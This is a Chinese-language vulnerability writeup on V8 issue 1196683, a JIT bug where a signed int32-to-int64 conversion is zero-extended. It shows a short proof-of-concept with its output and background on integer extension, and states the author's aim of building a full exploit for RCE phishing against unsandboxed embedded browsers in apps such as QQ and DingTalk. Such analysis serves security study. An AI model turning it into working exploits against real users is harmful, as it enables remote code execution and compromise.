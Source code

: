 
# issue-1196683

在指令选择阶段，为ChangeInt32ToInt64节点选择指令时，由于错误对有符号数使用了0拓展，导致了漏洞产生。

### 漏洞危害

虽然chrome有沙箱保护，但是大多数软件的内置浏览器均为--no-sanbox模式（如qq、钉钉、飞书、wps等），我们可以利用构造好的html进行rce钓鱼。

下面将逐步从poc开始分析，最终实现完整的漏洞利用代码。

## poc
```js
  const arr = new Uint32Array([2**31]);
  function foo() {
    return (arr[0] ^ 0) + 1;
  }
  %PrepareFunctionForOptimization(foo);
  print(foo());
  %OptimizeFunctionOnNextCall(foo);
  print(foo());
```
执行结果：
```
-2147483647
2147483649
```

## 基础补充
### 整数扩展
当你将一个较窄类型转换为另一个更宽的类型时，机器会按位将旧的变量复制到新的变量，然后将其他的高位设为0或者1.
- 如果源类型是无符号的，机器就会使用零扩展(zero extension)，也就是在宽类型中将剩余高位设为0.
- 如果源类型是带符号的，机器就会使用符号位扩展(sign extension)，也就是将宽类型剩余未使用位设为源类型中符号位的值。